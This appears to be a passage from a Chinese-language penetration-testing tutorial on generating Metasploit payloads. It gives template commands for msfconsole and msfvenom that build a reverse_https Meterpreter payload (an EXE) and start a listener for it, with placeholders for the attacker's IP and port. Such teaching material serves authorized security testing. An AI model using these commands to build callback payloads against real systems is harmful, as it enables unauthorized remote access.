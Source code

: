 接下来，我们将看一下 MSF 负载生成。

# MSF 负载生成

负载生成是 Metasploit Framework 中最有用的功能之一。从简单的 shellcode 生成到完全武装的 EXE/DLL 文件，Metasploit 可以在一条命令中生成。负载可以通过两种方式生成。

# 使用 msfconsole 生成 MSF 负载（一行命令）

通过使用 MSF 控制台并执行负载生成命令，您可以生成任何 MSF 支持的负载。使用此技术的一个优点是您不必单独启动负载处理程序。这可以通过一条命令完成。要生成负载并启动处理程序，请执行以下代码：

```
'msfconsole -qx "use <MSF supported payload>; set lhost<IP>; set lport <Port>; generate -f<Output File Format> -o<payload filename>; use exploit/multi/handler; set payload<MSF supported payload>; set lhost <IP>; set lport <Port>; run -j"'
```

以下屏幕截图显示了上述命令的输出：

![](img/98134196-af74-4fcc-b15c-c66e3ed8bf92.png)

上述命令将生成`reverse_https` Meterpreter 负载。列出它以确认生成的负载，并在端口`9090`上启动处理程序以进行传入连接。生成负载的另一种方法是使用 MSFvenom。

在上述命令中，使用`-q`开关以安静模式启动 MSF，`-x`在启动后在控制台中执行命令。

# 使用 msfvenom 生成 MSF 负载

MSFvenom 是一个内置工具，可以生成和混淆负载，无需启动 MSF。执行`msfvenom -p <MSF 支持的负载> lhost=<IP> lport=<PORT> -f <输出文件格式> -o <负载文件名>`命令以生成 EXE 格式的`reverse_https` Meterpreter 负载并保存文件：

![](img/02196b7c-1a4f-4874-8072-fd907beb0113.png)
